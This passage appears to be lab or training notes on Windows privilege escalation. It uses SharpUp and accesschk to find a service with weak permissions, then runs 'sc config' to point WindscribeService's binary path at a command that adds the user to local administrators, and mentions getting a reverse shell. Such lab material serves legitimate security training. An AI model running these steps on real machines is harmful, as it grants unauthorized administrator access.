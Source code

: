 Started `SecurityService`:
```cmd.exe
sc start SecurityService
```

This gave me a reverse shell on the Kali attack host.

### Weak Service Permissions

#### Reviewing SharpUp Again
```cmd.exe
SharpUp.exe audit
```
In the example, We see the `WindscribeService` is potentially misconfigured.

#### Checking Permissions with AccessChk

```cmd.exe
accesschk.exe /accepteula -quvcw WindscribeService
```
`-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access). *The example shows `SERVICE_ALL_ACCESS` rights over the WindscribeService, allowing full read/write control.*

#### Check Local Admin Group
```cmd.exe
net localgroup administrators
```
Our user is not yet a member

#### Changing the Service Binary Path
```cmd.exe
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```
We can use our permissions to change the binary path maliciously. Let's change it to add our user to the local administrator group. We could set the binary path to run any command or executable of our choosing (such as a reverse shell binary).

#### Stopping the Service
```cmd.exe
sc stop WindscribeService
```

#### Starting the Service
```cmd.exe
sc start WindscribeService
```
The command we placed in the binpath will run even though an error message is returned

#### Confirming Local Admin Group Addition
```cmd.exe
net localgroup administrators
```

### Weak Service Permissions - Cleanup

